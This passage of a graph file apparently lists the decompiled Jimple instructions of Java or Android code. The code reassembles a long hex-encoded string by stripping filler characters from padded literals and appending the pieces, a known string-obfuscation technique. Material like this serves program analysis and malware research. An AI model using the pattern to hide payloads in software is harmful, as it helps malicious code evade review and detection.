    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6EUUUU7UUUUU449\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6EUUUU7UUUUU449\"";
    "push \"U\""
    "push \"6EUUUU7UUUUU449\""->"push \"U\"";
    "push \"U\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0nnnn01nnn66nnnnD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0nnnn01nnn66nnnnD\"";
    "push \"n\""
    "push \"0nnnn01nnn66nnnnD\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"69e6eeEe69\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"69e6eeEe69\"";
    "push \"e\""
    "push \"69e6eeEe69\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6Dc616Cc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6Dc616Cc\"";
    "push \"6Dc616Cc\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rrrr4rrrr4617rrr9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rrrr4rrrr4617rrr9\"";
    "push \"r\""
    "push \"rrrr4rrrr4617rrr9\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"73CCCCCC4CCCCC9CCCCCC6E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"73CCCCCC4CCCCC9CCCCCC6E\"";
    "push \"C\""
    "push \"73CCCCCC4CCCCC9CCCCCC6E\""->"push \"C\"";
    "push \"C\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"46B6BB9B7BB2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"46B6BB9B7BB2\"";
    "push \"46B6BB9B7BB2\""->"push \"B\"";
    "push \"B\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7III3IIII7II457III\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7III3IIII7II457III\"";
    "push \"7III3IIII7II457III\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65LLL6LLL5LLLL6LLLLLLLLB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65LLL6LLL5LLLL6LLLLLLLLB\"";
    "push \"65LLL6LLL5LLLL6LLLLLLLLB\""->"push \"L\"";
    "push \"L\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tttt49t0t0tt0tt9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tttt49t0t0tt0tt9\"";
    "push \"tttt49t0t0tt0tt9\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6___E6_57__8___\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6___E6_57__8___\"";
    "push \"6___E6_57__8___\""->"push \"_\"";
    "push \"_\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"74nn53nnnn74nnn\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"74nn53nnnn74nnn\"";
    "push \"74nn53nnnn74nnn\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6@@@16D@70\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6@@@16D@70\"";
    "push \"@\""
    "push \"6@@@16D@70\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4;9;;;0;;;;;;0;;15;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4;9;;;0;;;;;;0;;15;\"";
    "push \"4;9;;;0;;;;;;0;;15;\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"736BBBB5BBBB72BBB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"736BBBB5BBBB72BBB\"";
    "push \"736BBBB5BBBB72BBB\""->"push \"B\"";
    "push \"B\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yyyy69yyy616C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yyyy69yyy616C\"";
    "push \"yyyy69yyy616C\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"599996695792\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"599996695792\"";
    "push \"9\""
    "push \"599996695792\""->"push \"9\"";
    "push \"9\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"73zz6zzz9zzz6zzzF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"73zz6zzz9zzz6zzzF\"";
    "push \"73zz6zzz9zzz6zzzF\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6E4hhhFhhhh6E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6E4hhhFhhhh6E\"";
    "push \"6E4hhhFhhhh6E\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5xxx374xxx7xxx2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5xxx374xxx7xxx2\"";
    "push \"x\""
    "push \"5xxx374xxx7xxx2\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nnnn65nnnnnn616D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nnnn65nnnnnn616D\"";
    "push \"nnnn65nnnnnn616D\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"499A990990999999909994999\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"499A990990999999909994999\"";
    "push \"499A990990999999909994999\""->"push \"9\"";
    "push \"9\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"746>>>>9>6D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"746>>>>9>6D\"";
    "push \">\""
    "push \"746>>>>9>6D\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65PP5PPB0P0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65PP5PPB0P0\"";
    "push \"65PP5PPB0P0\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0:6::::6:::6::69\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0:6::::6:::6::69\"";
    "push \"0:6::::6:::6::69\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6VV56CV6VVVV4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6VV56CV6VVVV4\"";
    "push \"6VV56CV6VVVV4\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"I737IIIIII40II0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"I737IIIIII40II0\"";
    "push \"I737IIIIII40II0\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0X25BX49XXXX\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0X25BX49XXXX\"";
    "push \"0X25BX49XXXX\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5B0yyy0yyy05yyyy\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5B0yyy0yyy05yyyy\"";
    "push \"5B0yyy0yyy05yyyy\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"y6973y5y3yyyy\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"y6973y5y3yyyy\"";
    "push \"y6973y5y3yyyy\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"657uuuuuuuu474uu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"657uuuuuuuu474uu\"";
    "push \"657uuuuuuuu474uu\""->"push \"u\"";
    "push \"u\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00c0cccc25ccB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00c0cccc25ccB\"";
    "push \"00c0cccc25ccB\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5<<<A4<<C<<<<<<00<<\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5<<<A4<<C<<<<<<00<<\"";
    "push \"5<<<A4<<C<<<<<<00<<\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0xxxx4xx7A6Fxx\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0xxxx4xx7A6Fxx\"";
    "push \"0xxxx4xx7A6Fxx\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6DDDDEDDD6DDD574\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6DDDDEDDD6DDD574\"";
    "push \"6DDDDEDDD6DDD574\""->"push \"D\"";
    "push \"D\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00144YYYC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00144YYYC\"";
    "push \"00144YYYC\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6aaaaaAaaa6aaa176a\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6aaaaaAaaa6aaa176a\"";
    "push \"a\""
    "push \"6aaaaaAaaa6aaa176a\""->"push \"a\"";
    "push \"a\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"61cc2ccFcc7cccc5cc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"61cc2ccFcc7cccc5cc\"";
    "push \"61cc2ccFcc7cccc5cc\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rrr7rr4696rrrC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rrr7rr4696rrrC\"";
    "push \"rrr7rr4696rrrC\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2AAAAFAAAA5AAA469\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2AAAAFAAAA5AAA469\"";
    "push \"2AAAAFAAAA5AAA469\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6D655EEA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6D655EEA\"";
    "push \"6D655EEA\""->"push \"E\"";
    "push \"E\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6F6DDDDE6DDD5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6F6DDDDE6DDD5\"";
    "push \"6F6DDDDE6DDD5\""->"push \"D\"";
    "push \"D\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3iiiBiii7ii8iiii70ii\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3iiiBiii7ii8iiii70ii\"";
    "push \"3iiiBiii7ii8iiii70ii\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0CCC10CC0CCC00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0CCC10CC0CCC00\"";
    "push \"0CCC10CC0CCC00\""->"push \"C\"";
    "push \"C\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uu0uu00101\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uu0uu00101\"";
    "push \"uu0uu00101\""->"push \"u\"";
    "push \"u\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0d10000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0d10000\"";
    "push \"0d10000\""->"push \"d\"";
    "push \"d\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"S0001SS00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"S0001SS00\"";
    "push \"S0001SS00\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"770770007777777702\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"770770007777777702\"";
    "push \"7\""
    "push \"770770007777777702\""->"push \"7\"";
    "push \"7\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00XXXXXX0XX0XXXXX0X0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00XXXXXX0XX0XXXXX0X0\"";
    "push \"00XXXXXX0XX0XXXXX0X0\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"01iiiiii0iiiii0iiii00iii\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"01iiiiii0iiiii0iiii00iii\"";
    "push \"01iiiiii0iiiii0iiii00iii\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"01nn21nnnn56\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"01nn21nnnn56\"";
    "push \"01nn21nnnn56\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3>>AF>C0>>>E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3>>AF>C0>>>E\"";
    "push \"3>>AF>C0>>>E\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
